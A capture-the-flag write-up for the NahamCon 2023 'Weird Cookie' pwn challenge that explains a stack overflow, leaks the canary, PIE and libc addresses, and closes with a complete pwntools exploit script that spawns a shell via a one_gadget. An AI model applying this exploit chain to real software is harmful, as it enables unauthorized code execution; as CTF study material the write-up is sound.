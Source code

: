 ```yaml
---
title: Weird Cookie  , NahamCon 2023
author: megachar0x01
date: 2023-06-19
categories: [Pwn, amd64, ctf]
---
```




## Description : 
it appears that there is a global variable that holds a canary value, and the same canary value is stored on the stack. It's important to note that these hardcoded canary values  vary if Address Space Layout Randomization (ASLR) is enabled.

The program allocates 40 bytes of memory on the stack, which are initialized to zero. However, when the program takes input from the user, it accepts 64 bytes of data and saves it in the 40-byte stack-allocated memory, causing a buffer overflow. Subsequently, the contents of this memory are printed to the screen as a string.

Afterward, the program accepts another input, which also leads to a buffer overflow. This buffer overflow allows the manipulation of the program's control flow, specifically the instruction pointer (RIP) and the base pointer (RBP).

The attack strategy involves leaking values from the stack by inspecting it. By overflowing  null byte '\x00' and using the `puts` function, we can print everything until the next null byte '\x00'. This allows us to leak values from memory, including the canary value and '_IO_2_1_stdout_'. These leaked values help us bypass canary and PIE (Position Independent Executable) protections.

In the subsequent buffer overflow, we overwrite the base pointer (RBP) with a Global Offset Table (GOT) address and the return instruction pointer (RIP) with the address of the main function plus an offset of 112. This enables us to leak the contents of the GOT, revealing addresses of functions in the libc library. We can then utilize the libc address plus the 0x10a2fc onegadget offset to gain a shell.

Note: The provided information is for educational purposes only. Exploitation of vulnerabilities should only be performed in authorized environments and with appropriate permissions.

## Protections: 


<img src="https://i.imgur.com/9NNVGZK.png" alt="img_1">

## Vulnerable Code


<img src="https://i.imgur.com/NRNT04z.png" alt="img_2">



## Exploit

```python
#!/usr/bin/python3
from pwn import *
import struct

# context.terminal = ['tmux','splitw','-h']
os.environ['XDG_CACHE_HOME'] = '/tmp/'

context.log_level = 'error'

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify GDB script here (breakpoints etc)
gdbscript = '''
break *main+221
continue
continue
'''.format(**locals())

exe = './weird_cookie'
elf = context.binary = ELF(exe, checksec=False)
libc = elf.libc
libc_rop = ROP(libc, checksec=False)

io = start()

padd = 40

# Initial payload to trigger overflow
payload = b""
payload += b"A" * padd

io.sendafter(b"Do you think you can overflow me?\n", payload)

io.recvuntil(b"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA")

# Leak the canary and PIE address
leak_raw = io.recvline().strip(b"\n")
leak_canary = u64(leak_raw[0:8])
leak_pie = u64(leak_raw[8:14] + b"\x00" * 2)

print(f"Leaked PIE value: {hex(leak_pie)}")
print(f"Leaked canary: {hex(leak_canary)}")

# Calculate the base address of the binary using the leaked PIE value
elf.address = leak_pie - elf.sym.__libc_csu_init

# Save the leaked canary value
canary = leak_canary

exe_rop = ROP(elf, checksec=False)

# Prepare the payload for the second stage of the attack
payload1 = b""
payload1 += b"A" * padd
payload1 += p64(canary)
payload1 += p64(elf.got.exit + 0x30 + 16 + 8)  # rsp = [rbp-0x30] # rbp (exit+16 = io_stdin)
payload1 += p64(elf.sym.main + 112)  # RIP

io.sendafter(b"Are you sure you overflowed it right? Try again.\n", payload1)

# Leak the address of exit from the GOT
leak_got_exit = u64(io.recvline().strip(b"\n") + b"\x00" * 2)

# Calculate the base address of libc using the leaked GOT address
libc.address = leak_got_exit - libc.sym._IO_2_1_stdout_

print(hex(leak_got_exit))
print(hex(libc.address + 0x4f2a5))

# Prepare the final payload for the third stage of the attack
payload1 = b""
payload1 += b"A" * 56
payload1 += p64(libc.address + 0x10a2fc)

io.sendafter(b"Are you sure you overflowed it right? Try again.\n", payload1)

# Switch to interactive mode to interact with the exploited binary
io.interactive()

```


Note: Due to time constraints, I decided not to pursue the exploit further as it didn't work on my system, although it worked successfully on a remote system.
